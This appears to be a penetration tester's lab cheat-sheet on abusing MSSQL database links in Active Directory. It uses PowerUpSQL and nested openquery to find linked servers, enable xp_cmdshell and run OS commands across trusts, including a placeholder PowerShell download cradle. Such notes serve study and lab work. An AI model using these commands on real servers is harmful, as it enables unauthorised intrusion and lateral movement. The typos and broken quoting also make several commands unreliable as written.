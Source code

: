 # AD - MSSQL

## MSSQL Server - Data

### Description

* SQL Servers provide very good options for laterla movement as domain users can be mapped to databse roles
* Database Links allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources
* In case of databse Links between SQL Servers => linked SQL Servers - it is possible to execute stored procedures
* Database links work even accros forest/domain trusts - nothing limits it

### Requirement

* SPN and active SQL Server

### Tool

* PowerUpSQL [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

**Discovery (SPN Scanning)**

{% code overflow="wrap" %}
```powershell
Get-SQLInstanceDomain

//Gets all SPNs which start with MSSQL - maybe no SQL Server is running (anymore)
```
{% endcode %}

**Check Accessibility**

```powershell
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -verbose
```

**Gather Informatione**

```powershell
Get-SqlInstnaceDomain | Get-SQLServerInfor -verbose
```

**Search for database Links**

<pre class="language-powershell"><code class="lang-powershell"><strong>Get-SQLServerLink -Instance hostname_of_mssql_server -verbose
</strong>  On all sqlinstances from above
<strong>❗Get-SQLServerLinkCrawl -Instance hostname_of_mssql_server -verbose
</strong>
-or-

select * from master..sysservers 
//do it in HeidiSQL Portable / Hostname of mssqlserver &#x26; Windows Auth
</code></pre>

**Enumerating DB Links manually**

{% code overflow="wrap" %}
```sql
select * from openquery("nextHost",'select * from master.sysservers')
select * from openquery(""nextHost",'select * from openquery("nexNextHost","select * from master.sysservers")')
```
{% endcode %}

**Executing commands**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>Get-SQLServerLinkCrawl -instance mssqlhostname -query "exec master..xp_cmdshell 'whoami'"
</strong><strong>
</strong>Get-SQLServerLinkCrawl -instance mssqlhostname -query "exec master..xp_cmdshell 'powershell download cradle"
<strong>
</strong><strong>
</strong>//this runs accross all links
=> only for eu-sql we get an output
</code></pre>

**Executing Commands**\
****Target server should have xp\_cmdshell or rpcout (disabled by default)

* If rpcout is enalbed, you can enable xp\_cmdshell using\
  EXECUTE('sp\_configure "xp\_cmdshell",1;reconfigure;') AT "link-name"
* Use the -QuertyTarget parameter to run Query on a specific instance (without -QueryTarget the command tries to use xp\_cmdshell on every link of the chain)&#x20;

{% code overflow="wrap" %}
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget eu-sql

From the initial SQL Server, OS commands can be executed using nested link queries:
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select
@@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```
{% endcode %}

